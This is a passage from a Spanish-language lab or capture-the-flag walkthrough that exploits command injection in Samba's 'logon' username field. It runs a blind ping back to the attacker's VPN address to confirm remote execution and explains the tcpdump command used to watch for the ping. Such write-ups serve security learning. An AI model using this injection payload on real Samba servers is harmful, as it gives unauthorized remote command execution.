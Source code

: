 Dentro de Samba, emplearemos el comando `logon` para hacer la inyección.

```Linux
logon "/= ' nohup COMANDO '"
```

El valor COMANDO no es el valor real que usaremos, en verdad deberemos usar `ping -c1 10.10.16.24`, este comando mandará un ping de nuestro objetivo hacía nuestra computadora, la elección no es arbitraria, es porque la inyección no nos pemite ver el STDOUT (la salida por terminal) de nuestro comando, por ende, si ejecutaramos un comando como 'whoami' no podríamos saber si se realizó correctamente o no, pero con este comando nosotros podemos ponernos a escuchar el tráfico `TCP` de nuestra computadora y ver si efectivamente estamos recibiendo el ping, es decir si nuestra ejecución remota fue efectiva. 

Antes de ejecutar la inyección debemos monitorear el tráfico tcp en busca de ping (ICMP), con el siguinte comando:

```Linux
sudo tcpdump -i tun0 icmp -n
```

1. `tcpdump`:

    - Descripción: Herramienta de captura y análisis de paquetes de red en línea de comandos. Permite interceptar y mostrar los paquetes que pasan por una interfaz de red.
    
2. `-i tun0`:

    - Descripción: Especifica la interfaz de red en la que tcpdump debe escuchar.
    
    - Propósito: tun0 es una interfaz de red de tipo túnel (como una VPN). El uso de -i tun0 indica que se deben capturar paquetes en esta interfaz.

3. `icmp`:

    - Descripción: Filtra los paquetes ICMP (Internet Control Message Protocol).
    
    - Propósito: Solo captura paquetes que pertenecen al protocolo ICMP. Esto incluye mensajes de error y de diagnóstico como ping.

4. `-n`:

    - Descripción: No resuelve nombres de host ni direcciones IP en nombres de dominio.
    
    - Propósito: Muestra las direcciones IP numéricas en lugar de intentar resolverlas a nombres de dominio. Esto puede acelerar la captura y hacer la salida más clara.


Una vez estemos escuchando, ejecutamos la inyección con:

```Linux
logon "/= ' nohup ping -c1 10.10.16.24 '"
```

Nos pedirá una contraseña, podemos ingresar cualquier texto y dar enter. 
